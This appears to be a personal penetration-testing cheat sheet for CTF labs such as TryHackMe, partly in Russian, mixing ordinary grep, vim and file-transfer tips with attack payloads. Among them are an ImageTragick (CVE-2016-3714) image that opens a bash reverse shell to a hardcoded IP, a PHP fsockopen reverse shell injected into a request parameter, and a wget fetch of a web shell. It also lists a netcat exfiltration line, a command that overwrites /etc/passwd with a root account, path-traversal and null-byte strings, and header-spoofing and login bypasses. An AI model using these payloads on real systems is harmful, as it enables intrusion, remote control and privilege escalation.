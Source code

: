 [back](../README.md)
#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

#### CVE-2016–3714

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```


#### Read file:
```
xxd -r file.txt 
base64 /etc/shadow | base64 -d
ltrace # is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.

`l\s`: Equivalent to `ls`
`wget${IFS}http://10.8.50.72:8000/shell.php`

cat ./-

file */{.,}* #every type of file in folder
du -b -a | grep 1033 #size of file
sort data.txt | uniq -u #uniq lines
```

#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```

#### Decompress a gzip file:
```sh
gzip -d file.gz
```
#### Change file without vim or nano
```sh
cat > file << EOF 
....
EOF
```

#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```

#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```

#### socat if open port
```python
./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```

#### File Transfer on `Netcat`

1. To download a file on the remote shell:

```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```

2. To receive the file on the attacker machine:

```nc
nc -l ATTACKER_PORT > [output_file_path]
```

#### Transfer files using `scp`:

```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
scp -i id_rsa user@$IP:/home/willow/user.jpg . 
```
#### fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
#### mount
```sh
sudo apt install nfs-common
showmount -e $IP
sudo mkdir /mnt/nfs                                                              sudo mount -t nfs $IP:/var/failsafe /mnt/nfs 
```

#### grep
```sh
locate seclist | grep <what>
grep -Rwi "text"
grep -n #numbers
grep -i #do not care abuot regex
grep -c #how many times
grep linux * -r recursive # in all files
точка - это любой символ, -f чтоб точка не считалась любым символом
-v '^#' #begins with
'^$' #пустые строки
-e '^(#|$)' #начинается или с # или с $(пустая строка)
grep -e 'colou?r' # ? makes preveous character optional (то есть и может стоять и нет)
grep -w 'root' # only word root, not asdrootas
\grep #unalias
-A5 #five line after the math
-B5 #before
-C5 #before and after
-e '[0-9]{5,6}/tcp' file.txt #от 5 до 6 цифр от 0 до 9
-E '[0-9]$' #number at the end of line
-E '\s*' # space or tab 
+ # one and more chars
```

---
#### ssh
```
ssh-keygen -t rsa -q -f "$HOME/.ssh/id_rsa" -N ""
```
#### vim
```vim
Shift+H     # Move cursor to the top of the screen.
Shift+M     # Move cursor to the middle of the screen.
Shift+L     # Move cursor to the bottom of the screen.
gj          # Move one line down if text is within one line.
g0          # Move cursor to the start of the current line.
dk          # Delete current line and the line above it.
gq q        # Format selected text into a single block of multiple lines (VAPGQ).
J           # Join lines together (opposite of GQ).
gj          # Join lines without spaces (opposite of J).
gu u        # Convert to lowercase.
gU U        # Convert to uppercase.
~           # Toggle case of current character.
g~ ~        # Toggle case of all characters in the current line.
gf          # Open the file whose name is under the cursor, '^' to go back.
gv          # Return to the previous selection after visual mode.
```
#### magic numbers
png
```
89504E470D0A1A0A
```
gif
```
GIF87a    474946383761
GIF89a    474946383961
```

#### bypass
```
добавляешь пользователя, формат json, то добавить “role”:"admin"
────────────────────────────────────────────
можно байпаснуть /admin если не пускают: /adMin или /adMin/users
────────────────────────────────────────────
можно удалять эвенты в html, которые выполняют фильтровку 
────────────────────────────────────────────
w'h'o'a'm'i
────────────────────────────────────────────
what=order&id=5$(php -r '$sock=fsockopen("10.18.22.27",5555);exec("sh <&3 >&3 2>&3");')
────────────────────────────────────────────
....//....//....//....//....//....//etc/passwd%00.jpg 
....//....//....//..../
────────────────────────────────────────────
%20 - вместо пробела
file.php%00.jpg #null byte/....//....//etc/passwd%00
────────────────────────────────────────────
можно перезарегаться за пользователя, добавив просто пробел перед его username
────────────────────────────────────────────
bypass limit
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1
────────────────────────────────────────────
login with '*'
search with '.*'
────────────────────────────────────────────
────────────────────────────────────────────
────────────────────────────────────────────
```
#### mv multiple files
```
mv -t DESTINATION file1 file2 file3
```
#### [steal admin cookie/sqli](marketplace.md) (tryhackme:marketplace)
#### [ohmyweb](omyweb.md)

---
